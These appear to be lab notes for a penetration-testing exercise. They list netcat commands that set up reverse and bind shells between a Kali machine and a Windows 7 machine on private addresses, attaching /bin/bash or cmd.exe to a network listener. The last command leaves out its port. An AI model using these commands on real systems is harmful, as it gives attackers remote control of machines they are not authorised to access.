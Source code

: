 # Reverse Shell from Kali to Windows

## Windows 7

nc.exe -nvlp 63389

> Would not work with the default 4444 port.

## Kali

nc -nv 10.11.9.175 63389 -e /bin/bash

---

# Reverse Shell from Windows to Kali

## Kali

nc -nvlp 63389

## Windows 7

nc.exe -nv 10.11.0.190 63389 -e cmd.exe

---

# Bind Shell from Windows to Kali

## Kali

nc -nvlp 63389 -e /bin/bash

## Windows 7

nc.exe -nv 10.11.0.190 63389

---

# Bind Shell from Kali to Windows

## Windows 7

nc.exe -nvlp 63389 -e cmd.exe

## Kali

nc -nv 10.11.9.175
